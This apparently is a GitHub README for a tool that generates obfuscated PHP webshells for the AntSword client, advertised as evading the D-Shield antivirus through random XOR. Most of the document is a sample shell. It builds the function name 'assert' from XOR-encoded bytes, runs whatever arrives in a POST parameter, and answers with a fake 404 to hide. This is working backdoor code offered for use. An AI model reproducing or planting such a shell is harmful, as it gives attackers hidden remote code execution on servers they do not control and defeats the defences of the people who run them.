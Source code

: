 # as_php_xor_bypass
利用随机异或无限免杀D盾蚁剑版 (thx @SardineFish & @Medicean)


原项目地址:
https://github.com/yzddmr6/webshell-venom


### 生成 Shell 样例

```
<?php 
header('HTTP/1.1 404');
class COMI { 
    public $c='';
    function __destruct() {
        $_0 = "\xfc" ^ "\x9d";
        $_1 = "\x4" ^ "\x77";
        $_2 = "\xb4" ^ "\xc7";
        $_3 = "\x9b" ^ "\xfe";
        $_4 = "\x93" ^ "\xe1";
        $_5 = "\xe7" ^ "\x93";
        $db =$_0.$_1.$_2.$_3.$_4.$_5;
        return @$db($this->c);
    }
}
$comi = new COMI();
@$comi->c = $_POST['yzddmr6'];
?>
```
